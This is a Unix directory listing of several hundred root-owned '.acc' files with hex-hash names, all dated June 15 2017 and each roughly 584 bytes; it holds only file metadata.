-rw-r--r-- 1 root     root      585 Jun 15  2017 87a3209fc8d2d8ebe98e40bac4ce78f0.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 87b0476d46f9b5bf71be14e4447e0ec1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 87def2435b8b7dfbc1cb90e594b48a4c.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 87f2fd14ae5dd0b04fbf96d8e6768283.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 884f78f576290e70b234f68cc2b75565.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 889298fbc7c3ed6d6487da1b725a3d06.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 8915138a77e6474ae29f6b06e109b7ff.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 897ffb89e0066d9cbb92666cd2e92960.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8a0c42c20d3cc111e294dd14d523b149.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8a2b4b1782cbd4660ce40085d31317b7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8b91eedc4a7f3fa84360dca78e2ab618.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8c5bc636a713df10a0b267dbdce15396.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8c92082936170befc74bde36ed0507c8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8cd768d35008b86c017e341aa4b0bce8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8ce4aa658a58f13de583838f62ddc5ca.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 8cedbedfff70a3528fbebfee0fe0c4a3.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8cf431f4c9ed8b09aeaa97b6da4eac57.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 8cfb0967df2394db4375ccc542fe2618.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8d33eab2dc9fb1ba85fcbb9db580eb5f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 8e6493afb68626079c3a153ecc2bc532.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8e99440294d984f80beb6d5d9aa95637.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 8ef95b6bd6c84e5ea7b1c0c765f9e7b8.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 8f00e7f326d98a8f40b0db62a55c01d5.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 905fe459c1ae841af1138abf7a49a960.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 911be9d5ece260e1789c21cc8997bbe9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 91249b887c7bf3f6cb7becc0c0ab8ddd.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 916462152b12cacd3b7a982c8fd1206b.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 916da122c11e2e240be7647d3943ac6b.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 91ac85b6679b679cfcaec44e9e91db0f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 91f56bdaaf319e141d7784413028d0fd.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 922bb20268e664d4571a234836f68b7e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 92579940417f9ae8d23f3274830ceeaa.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 925a13e731e148e32a024d57905883cf.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9281c329f634b4b2cd88a6defcb7bd86.acc
-rw-r--r-- 1 root     root      581 Jun 15  2017 941e55bed0cb8052e7015e7133a5b9c7.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 94290d34dec7593ce7c5632150a063d2.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9485920a1460f5b8a5ce891e19c321a1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 94b434c6fe64eb8f08f50bbcc4f4fb57.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 958753e5d8c5896a5570dd1fba2c2f11.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 95a9ed9af4c22584f165f5b43520b377.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 962607e2656d81d6dbf9d1a85142b144.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 9654eabf734023323c0fa3e8ed894c65.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 973a3382433a21d7bdb1cc0f8f813f83.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 976358d4677bd2938987d334bb6f283d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 97b93d510fb8e5946d975d81a53562de.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 97cb4404efbed5404dbd3c1023f226e9.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 97daa2d02c5a4c6a68f81f6e7196a9eb.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9829ce4147ce5ba39e4e95ddb7254b73.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9833b80712e7a1e77e86a2dfbaba8278.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 984c8ac0662b0368642ddadf106bd1aa.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 98a9d9ac52319098a6ea778e6ec559ee.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 98fdde8e57f46c48d6f8eff627c7bd6d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 998dab6a74e39fc6d830d3569c9eea50.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 99aad93853d637ada481588dfc223c56.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 99b73c36a3f627bca6cf01689505081d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 99d49fb7fc00f549eb036dd473964ca5.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 99fca069a084b394d4a54401008c0651.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9a885af05f71935ae8fb9cbbc07f6c57.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 9b18bdcbae98a8fadfd7baadbbab92ac.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9b1b85b68b76774b9e97f12d4e685297.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9b38ac5ba7ca3e908bbc52656963ff1c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9cc34a3225e3d56ef6ca75d48d1bfeb8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9d1ccb2a318fe144d1787744870973ca.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 9d7bfd31b36dfb3819bfcd38d2a2a6da.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 9da8237625c9c0415c890bef3ba6ebc5.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9de044238ee025b4a846affc64cc5233.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9e2946901fe6cb9fc604a12d18db1722.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 9e46683ea1755a3751709b04e37571e4.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9e714e03d30847b9faa6f7f34041a818.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9e91dd7524e1a9e54af255b02eb3f06a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 9eb94f160af437fe9df9da2416072508.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9ecf16cf62123f6cd5b5cea0f5864497.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9f07f9526589a189370b73a3b29a4d9b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9f0c5a3cc09e7a3cd0debffdee919bb8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9f3c06e35412753ec225c292b7cbc0f2.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9f6357464ddc2017fff1923f28835cf7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9f936f11fb62fc8b30e3d86ff7c0f8cf.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 9fb8117ab5d757240cd6ef209f85471a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 9fe63f9d1390025ee2e3c735c1a75082.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a19983a3444c9f01bb4afb8f985c92bc.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 a19e0c370602300554e6a997b9dc91ad.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a1a96ff9ea385289c05d16230b509aeb.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a27d0aa5e218c89d734cd7c169f7f4f9.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a2881d3dd5ee59e95e3ba1265b2a68a2.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a2a532abbf06c0e084f508b5f14de219.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a2e24c98892ca93d1201c80f42c994e4.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a2f5e3d1b3733a1a40ac6ac4bd7c2182.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a3009c3a4e00b5c5c760f7b43643bc4f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a3692632944476a25b92d486c17c6962.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a398fabe8a9cf8411e32841e10f64dd6.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a465e6dcb80571d0c1a4c50656db1e3f.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 a4faa925a6f8d2c6027d5934cea9a103.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a53a4eaab8be6c4b8569fd407be54287.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a5ae203a96c1b48cc51f38e2113b51e2.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a5beea9b526e1fa0916a2a1c2297ad14.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a5d269a562c49d467a5102643bd35a8c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a5d757244998b2d9ec1d9b88da0c17c7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a5dd7a85f0c5aef27255defb4059cab6.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a6012bfc5cbd982890ccd874df0acb63.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a648c7b7032a91bf38440a56b7f1bf26.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a6566c5ba56c080595346fb4f75175f5.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 a675e030fbf19a997ca2a03c096c7162.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a676fde116361fca31ee46e2568e0ff8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a6a253ff3c0058a8218eba01acddaa38.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a710f853274ebac3bbdfa39d1498b131.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a75e327f24e14d77509c39cf53c2eb9d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a7c061a1de903c3498d4a96242d16244.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a80f454ea328eeb74bc50e0c2af5c33a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a909fd3d565cdc5e67c7b25563733b3a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a9304d76fefb2a8b05e7e33bb96c5e0e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a940beb305934c9e105340f21528b1e4.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 a98fe279ce82b3e7566be14540cdfd87.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 a9bf73c62737a6c16b95651c046fe3f1.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 aa1460476704c4ab045ba3583b34a319.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ab184ebb41fd49201e47e6d9e7995c0f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ab4e2a922a7f3a3c8600276866e05a4e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 abbdef22ad2cd61ce2b88efdc1fd4068.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 abcf40e21740a1c04a9a3566497c0892.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 abedece2083ec0ce5bfd9b8287073e1f.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ac2916a043bcbeb801691afed44274d8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ac4f23bdb45a02602a6501e28993060e.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ac4fd9384634602b2d74305a18648577.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ac6d61e69c240fe11d6ca4b6acc35aff.acc
-rw-r--r-- 1 root     root      582 Jun 15  2017 acb4ccb8eeb778b614a993e7c3199e5b.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ad16aa80831b4fba1439ac9e5f0103c2.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ad363144b53172d66bd24dfa575d4915.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ad4704e9fd044a6961dc222624127732.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ad4bd9527fb35490c3c8a2be078c2b3d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ad608d995d60e704cb2f8bb0c9c8e526.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ad7cc6e79ce56c437a13246ed6c4d5f8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ae364452981dad5efa2bed11f58b67ec.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ae61679e003671db4ef71b3e08e51c6d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ae7f70db2c5682cf9d232915fbe5120c.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 aeaa050edd55f9acfdebbc6ec4565e06.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 aed357b751b161f2baa30f1a6ffa94d8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 af03037070ba16f49629e8fceae67101.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 af506ba8430038b4c446610b7afeca02.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b086c5383d5ba5f9fe55bcf2879d4494.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b0ffc7ada9b79d0b507d99b67a3260f6.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b117c5fddba8530b339c9a8da696ff0c.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b155ec440c9934e68335882bf9bc87a4.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b165bbdb365c838e73b1a2d667b6fccf.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b1732eb5066d19f0d4f2e4a2173b51d0.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b1a06fa15fea8df052eb0efda06239fc.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b1ab8c16c5300a1fc00907310fe6498d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b2007795fd0d31d65ec16d2cc03b62e2.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b2379715823c2d101d66b2b750d7729c.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 b244aedf4f40a73e2ba94ca019c11765.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 b25d37c6adaa929438e2906e99c9bf10.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b25f88734c195eac61678d0c1f9eaa4a.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 b2b92a76037f5cedcbddb2cf8922b584.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b2d9f5c9658426b86efd70046ee8471d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b2ec2c2d39477ab81eb74f185699e945.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b2f462e0cef4ceac9341cd6ff3e0ed83.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b30aff7167e8f8b78dcb22feca8754ad.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b36b55a6b85410da8098d183b46e9814.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b3fa7845a431dcab7cac67fcfc6dd728.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b4006524aae0d82ce9ad65a8991e81b3.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b4549c66b6529d2d366b0065722b4fab.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b461cb6730908268d5731c4d30696f23.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 b4ed8dcdfcbc03a4f383956db555f674.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b515f74731640dc9c2bcc5fbb155f0e2.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b51b74fb4d0fffb13588c438327eb18f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b54969a641bfeeb6a9daaf76b42bb629.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b59e8e4197ddedcafa629a4015a652a5.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b5dd07106c1b691c055f717c6267768a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b5fc8035406f2583cea97f92461bbcb0.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b65b6105d8c1b7732bc0cbe395e5ff2d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b6991119b60d52b191a97156374ec497.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b7640c209018067b376ae0832f66ebed.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b7778d5081f949cedbb609c1792d376e.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b819d8a2eb68f65c47355b20fa1e3a42.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b81a80f9bb4b1a04afa7097e23cbc76a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b85e39b33781a6d660ee25286c3ab5db.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b8978edfe1f1e84b9157d147adb4a7b3.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b8e7b4cf45d8182f69a43dfea4c15007.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 b91c776e5fc8ac78ef2b7ac7985c12e7.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 b987c7121ca99f686fad591cd517c96a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ba0c98a6b1b39df7395fbe53bb3d9416.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ba39ecb7f9e7c8ad01242ee2abfec51f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ba3f33ae83f835337fc89c330c8c0b0b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ba4fb7e7c14fba8f12044868d0a2fb58.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 bb34a1ff313f2f6c04f276bc796972a1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 bc1d7f1ae59272da503d8400021f1922.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 bc77e74af430c6c199676bd28a7239db.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 bc79ed4105fa30d652540f01aefa1b86.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 bc86f3b2b74796989a2607e0c0c0d785.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 bc8f563356a47ba542004438ad25cfe1.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 bc9767541db7363d22bd389262891376.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 bd19ed634fca546c3a1ba5839cb38108.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 bd5a6de2559b3b47989f6ed359df4b31.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 bd6296924dc801f8c8a4cb8a21cacb6c.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 bd8201d9d272abc25ea846ba4f9ce151.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 be68d0020eb8ca72d751561bfd379e0c.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 bf1db217197a8ca98e78546d06de0a78.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 bf263d614541baaaa541101f86af47b7.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 bf97c1b37423d4d65a57dc14979310f3.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 bfb8e73959a976e5abb32354299d919d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 bfcf10c3db55bd6e8ee1fb1d1e1db80c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 bff19337b2e4e2a93e29e98bd931dd19.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c0449dc4695da9107356b7081eeaf548.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c1700a7bfe673062732771b823b0cd7b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c19e88c3bb036819aa5b28cbdf9cfe27.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 c1e9c51654c980547d41a4e6b89a279e.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 c27e3b09f45c2e92b2d85f8ba84c2894.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 c4442fa5d035928e507c1b7a3d58abc3.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c5132ddff0d5dcb77af4ec902e3c34a7.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 c5664a8536412a94d5b109580070bd1c.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 c58e81ac3538ce7bfdf724829e91cc1b.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c59de74625806c5e1c0c76a2c744a57e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c5fbe301fd23271c5587af536c490d4d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 c610afd0caaedeab71cac5163f952e5f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c699054ac57388bc81a86e173a40380d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c6f3ea4d0d9050cdd89b3465cde1091c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c79000bbef5faef919233d06186a9460.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 c7c1aeb5d6174d9971083d5b0cc42d4d.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 c7e5018a4f1def3f9bb7e5845cef8520.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c7eafce7ea1402a837a2876a4df6363c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c809073b951d81730735cbddc4b05b4c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c86c13570b69c871145b9ee78c82cf1c.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 c88e9ce208f7a014f699c20e897c168d.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 c9aa1ec05c4655ff245a6cbf91987b9e.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ca7050d298b7ed8426eeb5dd8fcfacda.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 caa00c3f2217fdc59be9764e1167ca39.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 cb27ba5c7f50f33d3808eeccfe1c7271.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 cb2da876273338ead9c35ca591d1a74f.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 cbeed458cd121a5a971a2578ff6a3a95.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 cc4b31bcc18c5883483f418ace7032cb.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 cc66fd1344a67960d78071e553f5325a.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 cccc89d995cb744980230163ff4bc2b7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 cd0601603157ea5959e9920ce184a131.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 cd247bc40733ce4e2acad1fa1d55581c.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 cd77ee6d8342e1c28b6ca56662319f09.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 cde3efebc24ac5d927642eb91c120a0a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ce11ae5a941985ee4365cfd8027a505b.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 ce1c2ba769fbecf151783412d27b8f57.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 ce761813354f67a658f53c621777bd84.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 ce7a7abb6f1d6b0fef7e6528840f9215.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 cf011a47599e848a6be54aa867f37ec8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 cf17562e769f00fa2d4c9b06002ff565.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 cf436be4e3d4d42361e1634e2fe7ffc3.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 cfd0c07d32c03e6fbe670975fd0f7fdb.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 cfe327744712bc2caae9328329112b34.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 d0149e8a6c8fc1b1283bc35287e43c16.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d033c9d931824ff9e2c33961f02fd458.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 d0800a34462bed11d866ab5f06ba675d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 d0bdf3f0e1cbd9a34ffe788c2fe58a3b.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 d0bf290f0f579a5517ee798f2ff342c1.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 d12bce7535862f5cb291a7ce2c28a3c7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d1a0513c49f6a3e5ac20be49f84d4366.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d1a3a981955f9ca90f71169e2ed36f4a.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 d1ae912f2a39c387da14e93824a8dc55.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 d1c0337cacd04b40aa41ad9673ab6e18.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d1edb87cf8ab7428f6516d4aa6d4f810.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d202a0e5d499e5de951e2bd0f89c1561.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d202e77cc1f248507e2762f3d94e7700.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d3a36914dbbfc27be1850c9ff96782d4.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d3b32d2462d7cc342c873eb5e446aecb.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d3d8504e9030c7a62c9a753975edee61.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d3f31422f7626f223f0566cff6aeb214.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d441f15b2a3476a27e293baf3d0ec05a.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d47cf16a162cede027eff16290df4b41.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 d482e381c5eb43f1926cfb3a246e5bb0.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 d53b97a0d345159716ed03541ba999e8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d54532bd2e68a899fff5dad8bd5db8e8.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d5cb9f617e1a85d3b82222655d8b9745.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d63d28ffe1c777e4039aaa44f38a9a80.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d64498c649d007c2550b893b875491bf.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d6e92e084ca622a793ed7dd522d5570e.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d6f925ae367e2dbcd8b918ede84fa6ac.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d7cd6ee61bf1652ea1cf0a34291edab7.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d7da27efabd1420a998985b595a9e3e6.acc
-rw-r--r-- 1 root     root      583 Jun 15  2017 d81ff44224e6f0af034c595cba2b9197.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d88b183a0b7a477c5f7f38649aef54e4.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d898f1f579e3c074ae703acbf1f7ca64.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d92f85304c616afc75cedc569ec95449.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 d9cfdd2f403feb188165f66e93f1f0ea.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 da792e19873be561b9410bec2e43cd0d.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 da91d518d1fecf7334ab95fc97930324.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 db89b8312d552ed200d5f232e929d226.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 dbb9aa3c08cf691b8c020742d28a5126.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 dc38c8982f3e8c33505fd71ebbb83493.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 dcbcee36c8e9921d457bef60536010fa.acc
-rw-r--r-- 1 root     root      584 Jun 15  2017 dd1ef498f9168afa3a998bf521c86bdf.acc
-rw-r--r-- 1 root     root      585 Jun 15  2017 dd441ff68ffdd5e483c54b22d6b9560c.acc
